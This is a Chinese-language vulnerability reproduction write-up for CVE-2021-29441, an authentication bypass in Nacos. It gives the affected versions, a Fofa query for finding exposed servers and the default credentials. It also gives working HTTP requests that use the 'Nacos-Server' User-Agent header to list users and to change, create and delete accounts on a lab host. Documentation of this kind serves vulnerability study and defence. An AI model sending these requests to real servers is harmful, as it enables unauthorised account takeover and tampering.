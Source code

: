 # CVE-2021-29441

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Nacos未授权访问漏洞



# 0X01 漏洞描述

该漏洞发生在nacos在进行认证授权操作时，会判断请求的user-agent是否为”Nacos-Server”，如果是的话则不进行任何认证。开发者原意是用来处理一些服务端对服务端的请求。但是由于配置的过于简单，并且将协商好的user-agent设置为Nacos-Server，直接硬编码在了代码里，导致了漏洞的出现。并且利用这个未授权漏洞，攻击者可以获取到用户名密码等敏感信息

# 0X02 影响范围

```cpp
Nacos版本<=Nacos 2.0.0-ALPHA.1
```

# 0X03 Fofa语法

```cpp
app="nacos"
```

# 0X04 环境搭建

![Untitled](image/Untitled.png)

**默认账号密码：**nacos/nacos

![Untitled](image/Untitled%201.png)

# 0X05 漏洞复现

## 验证是否存在漏洞

```cpp
//GET请求
http://192.168.100.141:8848/nacos/v1/auth/users?pageNo=1&pageSize=1

User-Agent: Nacos-Server
```

![Untitled](image/Untitled%202.png)

## 修改密码

```cpp
//PUT请求
http://192.168.100.141:8848/nacos/v1/auth/users?username=test11&newPassword=123456

User-Agent: Nacos-Server
```

![Untitled](image/Untitled%203.png)

## 创建用户

```cpp
//POST请求
http://192.168.100.141:8848/nacos/v1/auth/users?username=test10&password=test10

User-Agent: Nacos-Server
```

![Untitled](image/Untitled%204.png)

## 删除用户

```cpp
//DELETE请求 
http://192.168.100.141:8848/nacos/v1/auth/users?username=test10

User-Agent: Nacos-Server
```